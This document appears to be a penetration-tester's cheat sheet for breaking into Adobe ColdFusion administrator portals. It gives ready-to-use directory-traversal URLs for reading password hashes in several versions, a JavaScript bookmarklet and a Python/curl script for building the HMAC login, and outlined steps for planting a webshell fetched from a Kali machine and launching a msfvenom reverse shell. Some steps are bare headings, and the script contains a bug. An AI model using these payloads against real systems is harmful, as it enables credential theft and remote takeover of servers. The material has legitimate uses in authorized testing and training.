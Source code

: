 
# COLD FUSION - Admin Portal LFD

## 1 - Find the Admin Panel

```
CFIDE/administrator/enter.cfm
``` 

## 2 - Use Directory Traversal to read the admin password hash

ColdFusion 6
```
http://site/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\CFusionMX\lib\password.properties%00en
```

ColdFusion 7
```
http://site/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\CFusionMX7\lib\password.properties%00en	
```

ColdFusion 8
```
http://site/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%00en	
```

All versions
```
http://site/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\..\..\JRun4\servers\cfusion\cfusion-ear\cfusion-war\WEB-INF\cfusion\lib\password.properties%00en	
```

** TRY TO CRACK THE ADMIN PASSWORD HASH FIRST **

## 3 - Get the SALT (changes every 30 seconds)

## 4 - Combine hash and salt

## 4 - Post the login form

- admin
- hmac

# 5 - Add a scheduled task to pull a CFM webshell from KALI and write to the webroot

# 6 - Use the webshell to expand or certutil a msfvenom reverse shell 

# 7 - Exec the shell with:

command
```
c:\windows\system32\cmd.exe
```
opts
```
/c shell.exe
```

Paste hash into login form and run this in address bar
```
javascript:alert(hex_hmac_sha1(document.loginform.salt.value,document.loginform.cfadminPassword.value))
```

Here's python script that can be used with curl to get the hmac
```
#!/usr/bin/python

import sys
import hashlib
import hmac

# 
#curl -s "http://10.11.1.10/CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\ColdFusion8\lib\password.properties%00en" | grep -w password=* | sort -u | grep -v input | cut -d"=" -f2
#

# Pipe the request above into this script to get the salt, paste in the admin password hash
# * don't forget to try and crack the hash first *


salt = sys.stdin.readline

hash='AAFDC23870ECBCD3D557B6423A8982134E17927E'
#salt=raw_input("Salt > ")

print hmac.new(salt,hash,hashlib.sha1).hexdigest().upper()
```